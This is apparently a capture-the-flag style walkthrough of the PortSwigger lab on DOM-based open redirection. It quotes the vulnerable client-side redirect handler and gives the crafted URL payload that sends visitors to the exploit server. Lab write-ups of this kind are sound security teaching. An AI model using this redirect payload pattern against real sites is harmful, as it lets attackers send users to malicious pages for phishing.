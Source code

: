 # DOM-based open redirection
Lab URL :- 

`https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection`

![image](https://user-images.githubusercontent.com/60841283/153748712-05ae0c8e-33f5-49f6-a3a1-99a5da71958e.png)

In source of post 
```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```

Payload in exploit server (in Body section) :- 
```html
https://ac4e1f0a1fd2a1f0c0e43be1003a009c.web-security-academy.net/post?postId=1&url=https://exploit-ac351fdf1f43a1a9c0fa3b5601990086.web-security-academy.net
```

![image](https://user-images.githubusercontent.com/60841283/153748642-fed26e4e-42aa-4edb-bf14-f51fae18034b.png)
